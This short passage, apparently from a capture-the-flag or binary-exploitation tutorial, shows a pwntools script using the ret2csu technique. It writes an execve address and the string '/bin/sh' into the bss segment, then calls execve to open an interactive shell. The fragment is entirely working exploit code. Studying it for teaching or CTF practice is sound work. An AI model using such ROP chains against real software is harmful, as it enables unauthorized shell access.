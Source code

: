 ```

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()

```

